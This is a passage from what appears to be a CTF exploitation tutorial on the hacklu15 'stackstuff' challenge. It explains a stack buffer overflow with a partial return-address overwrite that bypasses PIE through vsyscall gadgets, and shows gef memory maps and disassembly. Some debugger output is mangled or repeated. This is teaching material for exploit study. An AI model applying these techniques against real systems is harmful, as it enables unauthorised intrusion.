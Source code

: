 So we can see that the offset is `0x7fffffffdee8 - 0x7fffffffdea0 = 0x48`. Since this is above `0x32` and the length check, that means we have to give `0x5a` bytes worth of input. That means with our overflow we will have to overwrite the saved return address, the next qword, and the two lowest bytes of the next address (in this case the address at `0x7fffffffdef8`).

## Exploitation

So for our exploit, we will be doing a partial overwrite. We will be doing this to bypass PIE's address randomization, however there will be abit of brute forcing needed (we will cover that later). However before we do that, we will be doing an overwrite of the saved return address and the QWORD next to it. For that we will need to find a valid instruction pointer to place there, which will essentially just return, and act as a placeholder to execute the address which we partially overwrote. However the problem with this is that PIE is enabled, and since we don't have any infoleaks we can't call rop gadgets from the PIE or libc segments. This is where vsyscalls will come in handy:

```
ef➤  vmmap
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555556000 0x0000000000000000 r-x /Hackery/pod/modules/partial_overwrite/hacklu15_stackstuff/stackstuff
0x0000555555755000 0x0000555555756000 0x0000000000001000 rw- /Hackery/pod/modules/partial_overwrite/hacklu15_stackstuff/stackstuff
0x0000555555756000 0x0000555555777000 0x0000000000000000 rw- [heap]
0x00007ffff7dcc000 0x00007ffff7df1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7df1000 0x00007ffff7f64000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7f64000 0x00007ffff7fad000 0x0000000000198000 r-- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fad000 0x00007ffff7fb0000 0x00000000001e0000 r-- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fb0000 0x00007ffff7fb3000 0x00000000001e3000 rw- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fb3000 0x00007ffff7fb9000 0x0000000000000000 rw-
0x00007ffff7fce000 0x00007ffff7fd1000 0x0000000000000000 r-- [vvar]
0x00007ffff7fd1000 0x00007ffff7fd2000 0x0000000000000000 r-x [vdso]
0x00007ffff7fd2000 0x00007ffff7fd3000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7fd3000 0x00007ffff7ff4000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ff4000 0x00007ffff7ffc000 0x0000000000022000 r-- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000029000 r-- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002a000 rw- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x.g <pre> 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
A syntax error in expression, near `.g <pre> 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]'.
gef➤  x/8g 0xffffffffff600000
0xffffffffff600000:    0xf00000060c0c748    0xccccccccccccc305
0xffffffffff600010:    0xcccccccccccccccc    0xcccccccccccccccc
0xffffffffff600020:    0xcccccccccccccccc    0xcccccccccccccccc
0xffffffffff600030:    0xcccccccccccccccc    0xcccccccccccccccc
gef➤  x/4i 0xffffffffff600800
   0xffffffffff600800:    mov    rax,0x135
   0xffffffffff600807:    syscall
   0xffffffffff600809:    ret    
   0xffffffffff60080a:    int3
gef➤  x/4i 0xffffffffff600800
   0xffffffffff600800:    mov    rax,0x135
   0xffffffffff600807:    syscall
   0xffffffffff600809:    ret    
   0xffffffffff60080a:    int3
```
